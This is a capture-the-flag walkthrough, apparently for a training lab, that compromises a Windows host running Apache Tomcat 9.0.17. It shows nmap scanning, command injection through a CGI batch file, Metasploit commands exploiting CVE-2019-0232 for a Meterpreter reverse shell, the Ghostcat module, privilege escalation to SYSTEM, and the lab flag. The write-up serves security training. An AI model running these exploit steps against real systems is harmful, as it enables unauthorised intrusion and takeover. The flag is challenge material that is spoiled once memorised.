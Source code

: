 # Day 12 - Ready, set, elf. (Networking)

1. What is the version number of the web server?

    1. Run `nmap -sV -sC -Pn 10.10.53.1`:

        ```
        Nmap scan report for 10.10.53.1
        Host is up (0.14s latency).
        Not shown: 996 filtered ports
        PORT     STATE SERVICE       VERSION
        3389/tcp open  ms-wbt-server Microsoft Terminal Services
        | rdp-ntlm-info: 
        |   Target_Name: TBFC-WEB-01
        |   NetBIOS_Domain_Name: TBFC-WEB-01
        |   NetBIOS_Computer_Name: TBFC-WEB-01
        |   DNS_Domain_Name: tbfc-web-01
        |   DNS_Computer_Name: tbfc-web-01
        |   Product_Version: 10.0.17763
        |_  System_Time: 2020-12-14T00:39:43+00:00
        | ssl-cert: Subject: commonName=tbfc-web-01
        | Not valid before: 2020-12-11T21:55:21
        |_Not valid after:  2021-06-12T21:55:21
        |_ssl-date: 2020-12-14T00:39:46+00:00; 0s from scanner time.
        5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
        |_http-server-header: Microsoft-HTTPAPI/2.0
        |_http-title: Service Unavailable
        8009/tcp open  ajp13         Apache Jserv (Protocol v1.3)
        | ajp-methods: 
        |_  Supported methods: GET HEAD POST OPTIONS
        8080/tcp open  http          Apache Tomcat 9.0.17
        |_http-favicon: Apache Tomcat
        |_http-title: Apache Tomcat/9.0.17
        Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 33.32 seconds
        ```

    2. Apache Tomcat version `9.0.17` is running on port `8080`. `9.0.17` is the answer.

2. What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)

    1. Running `searchsploit tomcat` finds the following:

        ```
        Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                        | multiple/webapps/49039.rb
        Apache Tomcat - CGIServlet enableCmdLineArguments Remote Code Execution (Metasploit)                   | windows/remote/47073.rb

        ```

    2. Googling `Apache Tomcat 9.0.17 exploit` finds [CVE Details Tomcat 9.0.17](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-887/version_id-280286/Apache-Tomcat-9.0.17.html) which is vulnerable to [CVE-2019-0232](https://www.cvedetails.com/cve/CVE-2019-0232/). `CVE-2019-0232` is the answer.

    3. Going to `http://10.10.53.1:8080/cgi-bin/elfwhacker.bat?&systeminfo` (`elfwhacker.bat` given in instructions) shows the `systeminfo`, output which means commands can be run using this CGI script.

3. Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.

    ```
    sudo msfconsole
    search CVE-2019-0232
    use 0
    set rhosts 10.10.53.1
    set lhost tun0
    set targeturi /cgi-bin/elfwhacker.bat
    exploit
    ```

    Let's also try Ghostcat, which will let us read any file:

    ```
    mkdir -p /root/.msf4/modules/exploits/multiple/webapps/
    cp /usr/share/exploitdb/exploits/multiple/webapps/49039.rb /root/.msf4/modules/exploits/multiple/webapps/
    sudo updatedb
    sudo msfconsole
    use multiple/webapps/49039
    ```

4. What are the contents of flag1.txt? Open a shell with `shell` and run `type flag1.txt` to get `thm{whacking_all_the_elves}`

5. Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges! Run `getsystem` in metasploit to get `NT AUTHORITY\SYSTEM` (output of `getuid`).

    1. Local exploit suggester:

        ```
        background
        use post/multi/recon/local_exploit_suggester
        set session 1
        run
        ```

        Output:

        ```
        [*] 10.10.53.1 - Collecting local exploits for x86/windows...
        [*] 10.10.53.1 - 35 exploit checks are being tried...
        [+] 10.10.53.1 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
        [+] 10.10.53.1 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
        [+] 10.10.53.1 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
        [*] Post module execution completed
        ```
